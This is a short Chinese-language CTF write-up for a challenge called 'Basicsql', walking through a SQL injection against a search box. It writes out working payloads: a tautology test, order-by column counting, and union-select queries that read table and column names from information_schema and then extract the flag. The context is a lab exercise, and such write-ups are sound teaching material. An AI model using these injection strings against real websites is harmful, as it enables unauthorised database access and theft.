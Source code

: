 # Basicsql

这是一道简单的sql注入题，考察的就是对于sql注入的基本功，整个页面只有一个搜索框，注入点一目了然

输入了一下1' or 1=1# 发现查找成功，即该网站未对#进行过滤，那么接下来则变得简单

开始使用order by 语句猜字段数，在4时查询失败，可知有3个可显示位，接下来看是否过滤union select字段，结果发现没有过滤

于是使用1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() #语句获取表名![](/image/basicsql1.png)

而后使用1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='f1agfl4gher3' #获取字段名![](/image/basicsql2.png)

最后使用1' union select 1,2,h3r31sfl4g from f1agfl4gher3 #获得flag![](/image/basicsql3.png)

